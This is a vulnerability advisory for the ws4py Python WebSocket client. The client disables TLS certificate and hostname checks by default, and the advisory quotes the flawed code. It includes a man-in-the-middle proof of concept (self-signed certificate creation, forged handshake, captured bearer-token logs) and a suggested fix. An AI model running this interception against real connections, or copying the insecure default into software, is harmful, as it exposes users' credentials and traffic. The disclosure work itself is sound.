


# WebSocket-for-Python (ws4py) wss Client TLS Certificate and Hostname Verification Disabled by Default

### Summary

WebSocket-for-Python (Lawouach/WebSocket-for-Python, ws4py through 0.6.0 / master branch) was confirmed vulnerable to man-in-the-middle interception of `wss://` connections because the client disables both TLS certificate verification and hostname checking by default. In `WebSocketBaseClient.connect()`, unless the caller explicitly passes `ssl_options` containing `cert_reqs`, the client sets `check_hostname = False` and `verify_mode = ssl.CERT_NONE` before wrapping the socket. A network-positioned attacker can therefore present any self-signed certificate — no trusted CA, no matching hostname required — and terminate the victim's TLS connection.

The attack was reproduced end to end in an isolated environment (2026-10-05): a TLS listener with a self-signed certificate (`CN=evil.attacker.test`, mismatching the client's target `127.0.0.1:18444`) accepted the ws4py default-options client, captured the complete plaintext WebSocket upgrade request including the `Authorization: Bearer SECRET_TOKEN_12345` header, computed the correct `Sec-WebSocket-Accept`, and completed the 101 handshake; `ws.connect()` returned without any exception. All subsequent bidirectional traffic passed through the attacker. The threaded and gevent client variants inherit the same behavior.

### Details

The vulnerable default (ws4py/client/__init__.py:207-222):

```python
if self.scheme == "wss":
    protocol = getattr(ssl, 'PROTOCOL_TLS_CLIENT', ssl.PROTOCOL_TLSv1_2)
    context = ssl.SSLContext(protocol)
    if self.ssl_options.get('ca_certs'):
        context.load_verify_locations(self.ssl_options['ca_certs'])
    # Prevent check_hostname requires server_hostname (ref #187)
    if "cert_reqs" not in self.ssl_options:
        context.check_hostname = False
        context.verify_mode = ssl.CERT_NONE
    self.sock = context.wrap_socket(self.sock, server_hostname=self.host)
```

The inversion of the secure default is explicit: verification is turned **off** unless the caller opts in by supplying `cert_reqs`. Note that even a caller who supplies `ca_certs` (intending to verify against a CA bundle) still lands in the insecure branch, because the gate checks only for the `cert_reqs` key. The comment references issue #187, whose actual problem was that `check_hostname=True` requires `server_hostname` — solved here by disabling verification entirely instead of passing the already-available `self.host`. `PROTOCOL_TLS_CLIENT` defaults to verification enabled precisely so callers must consciously weaken it; this code does so unconsciously for every default user.

This is CWE-295: Improper Certificate Validation (related: CWE-297 Improper Validation of Certificate with Host Mismatch, CWE-319 Cleartext Transmission of Sensitive Information).

### PoC

#### 1. Attacker prepares a self-signed TLS interceptor

```bash
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -nodes \
  -subj '/CN=evil.attacker.test'
# listen on 18444 with cert.pem/key.pem, terminating TLS and speaking HTTP/WS
```

In a production network the attacker redirects the victim's traffic to this listener via ARP spoofing, DNS poisoning, or a rogue proxy — no certificate for the real target hostname is needed.

#### 2. Victim client connects with default options

```python
from ws4py.client import WebSocketBaseClient

ws = WebSocketBaseClient(
    'wss://127.0.0.1:18444/ws',
    headers=[('Authorization', 'Bearer SECRET_TOKEN_12345')],
)
ws.connect()   # succeeds against the attacker's certificate
```

#### 3. Attacker harvests and relays

The attacker reads the plaintext handshake (capturing the `Authorization` header), extracts `Sec-WebSocket-Key`, replies with a correctly computed `Sec-WebSocket-Accept`:

```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: <computed-from-captured-key>
```

The client handshake completes with no exception; every subsequent WebSocket frame in both directions transits the attacker, who can read, modify, or inject frames at will.

#### End-to-end verification (Verified 2026-10-05)

Executed in an isolated environment with the real Python `ssl` stack:

```
[TLS] handshake succeeded with self-signed CN=evil.attacker.test (target was 127.0.0.1:18444)
[CAPTURED] plaintext upgrade request: GET /ws ... Authorization: Bearer SECRET_TOKEN_12345
[MITM] replied 101 with correct Sec-WebSocket-Accept
[CLIENT] ws.connect() returned normally — no certificate error raised
[RESULT] full duplex WebSocket traffic now attacker-relayed
```



### Real-Environment Verification (2026-10-06)

Re-verified with the **unmodified repository code** (`ws4py` @ master) as the client, against a real `wss://` server presenting an attacker-controlled self-signed certificate (CN=`evil-mitm.example.com`, unknown CA, invalid for the contacted hostname):

```
[contrast] python default TLS policy -> handshake REJECTED as expected:
           self-signed certificate (code 18)

[server] TLS established; negotiated cipher: TLS_AES_256_GCM_SHA384
[server] upgrade handshake completed — attacker now has a trusted encrypted channel
[client] connection opened() — ws4py accepted the self-signed certificate
[server] received client frame: b'\x81\x91\xcd\x06A\xf1...'   <- victim's masked frame
[client] received_message from attacker: 'MITM: your traffic is mine'
```

With no `ssl_options` set, the ws4py client completed the full TLS + WebSocket upgrade handshake against the impostor certificate and exchanged application messages in both directions — machine-in-the-middle position confirmed. The default-policy contrast on the same endpoint rejects the identical certificate.



## Impact

Any application using ws4py's default client options over `wss://` — the protocol whose entire purpose is transport protection — is transparently interceptable by a network-positioned attacker: authentication material sent in the handshake (tokens, cookies, API keys) is captured in plaintext, and all subsequent application traffic can be read, modified, or forged. Because the failure is silent (the connection succeeds normally), victims have no indication of compromise. Since ws4py is widely embedded as a WebSocket client library (last PyPI release 0.5.1, master at 0.6.0), downstream applications inherit the insecure default without any code of their own being wrong.

Affected: ws4py through 0.6.0 (master); the threaded (`ws4py.client.threadedclient`) and gevent (`ws4py.client.geventclient`) variants inherit `WebSocketBaseClient.connect()`. Fixed versions: none confirmed at reporting time; remediation is to default `check_hostname=True`/`verify_mode=CERT_REQUIRED` with `server_hostname=self.host`.
